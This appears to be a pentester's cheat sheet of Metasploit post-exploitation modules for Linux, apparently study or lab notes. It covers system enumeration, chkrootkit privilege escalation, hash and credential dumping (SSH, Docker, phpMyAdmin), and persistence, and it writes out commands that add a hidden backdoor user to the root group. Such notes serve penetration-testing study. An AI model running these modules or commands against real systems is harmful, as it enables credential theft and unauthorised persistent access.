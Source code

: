 ## Modules
- Enumerate configuration files
	```
	post/linux/gather/enum_configs
	```
- Environment details
	```
	post/multi/gather/env
	```
- Network details
	```
	post/linux/gather/enum_network
	```
- Protection systems (ASLR, Yama, iptables, wireshark)
	```
	post/linux/gather/enum_protections
	```
- System details
	```
	post/linux/gather/enum_system
	```
- Container check
	```
	post/linux/gather/checkcontainer
	```
- Check for VM
	```
	post/linux/gather/checkvm
	```
- User history
	```
	post/linux/gather/enum_users_history
	```
- Some others
	```
	post/multi/manager/system_session
	post/linux/manage/download_exec
	```
	
## Vulnerable Program
- `chkrootkit` is used to check if there is a root kit installed on the machine but it itself has a vulnerability for privesc
- This can be exploited with
	```
	exploit/unix/local/chkrootkit
	```

## Dumping Hashes w/ Hashdump
- Get a normal meterpreter shell and then use the module to dump the hashes
	```
	post/linux/gather/hashdump
	post/multi/gather/ssh_creds
	post/multi/gather/docker_creds
	post/linux/gather/ecryptfs_creds
	post/linux/gather/enum_psk
	post/linux/gather/enum_xchat
	post/linux/gather/phpmyadmin_credsteal
	post/linux/gather/pptpd_chap_secrets
	post/linux/manage/sshkey_persistence
	```

## Persistence on Linux
- Add a user in the root group
	- Gain access to the machine as root and run the following
		```
		> useradd -m ftp -s /bin/bash
		> passwd ftp
		> usermod -aG root ftp
		```
- Use persistence module
	```
	exploit/linux/local/apt_package_manager_persistence
	exploit/linux/local/cron_persistence
	exploit/linux/local/service_persistence
	post/linux/manage/sshkey_persistence
	```
